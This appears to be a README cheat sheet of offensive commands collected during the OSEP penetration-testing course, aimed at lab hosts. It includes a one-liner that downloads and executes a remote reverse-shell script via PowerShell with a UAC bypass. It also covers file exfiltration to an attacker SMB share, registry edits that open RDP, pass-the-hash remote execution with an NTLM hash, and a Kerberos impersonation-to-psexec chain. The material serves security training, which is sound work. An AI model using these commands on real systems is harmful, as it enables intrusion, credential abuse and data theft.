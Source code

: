 Just a bunch of tools built/gathered along the OSEP course.

# Map the network (using netexec)
- `nxc smb 172.16.125.0/24 --log hosts.txt` (for windows hosts)
- `nxc ssh 172.16.125.0/24 --log hosts.txt` (for linux hosts)
- `netexec smb 172.16.149.0/24 --log hosts.txt && sed -i 's/x64//g' hosts.txt && cat hosts.txt | awk '{print $9,$11,$11"."$21}' | sed 's/(domain://g' | sed 's/)//g' | uniq | sort -u | tr '[:upper:]' '[:lower:]' | sudo tee -a /etc/hosts` - Automation for `/etc/hosts` file

# Useful Basic Commands:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

Abuse:

    1. impacket-getST.py -spn cifs/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :67065141d298d67a17ee8626476b20f9
    2. export KRB5CCNAME=Administrator.ccache
    3. impacket-psexec -k -no-pass dc.intelligence.htb
